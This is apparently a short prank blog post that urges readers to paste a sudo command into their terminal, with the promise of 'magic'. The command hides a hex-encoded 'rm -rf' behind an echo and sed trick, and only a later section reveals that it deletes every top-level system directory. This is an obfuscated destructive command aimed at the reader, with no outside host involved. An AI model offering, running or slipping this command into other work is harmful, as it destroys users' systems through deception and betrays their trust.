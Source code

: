 ```yaml
---
layout: post
title: In case of emergency break the computer
subtitle: Burn your mind
bigimg: /img/crash.gif
---
```


# In case of emergency break the computer
Burn... burn...

## What happens when we join the hunger with the urge to eat?

Open your TERMINAL and add a little code...

`sudo $(echo -e $(echo "726D202D7266" | sed 's/../\\x&/g;s/$/ \/*/'))`

Feel the magic happening before your eyes!

[![Echo do Mal](http://dropall.github.io/img/echo.jpg)](https://youtu.be/2DmHylxUTZw)

### Translation of code

What is actually inside the top hat

` rm -rf /bin /boot /cdrom /dev /etc /home /initrd.img /initrd.img.old /lib /lib64 /lost+found /media /mnt /opt /proc /root /run /sbin /snap /srv /sys /tmp /usr /var /vmlinuz /vmlinuz.old`



**Mage:** [@x_SHAMAN_x](https://t.me/x_SHAMAN_x) via Telegram.
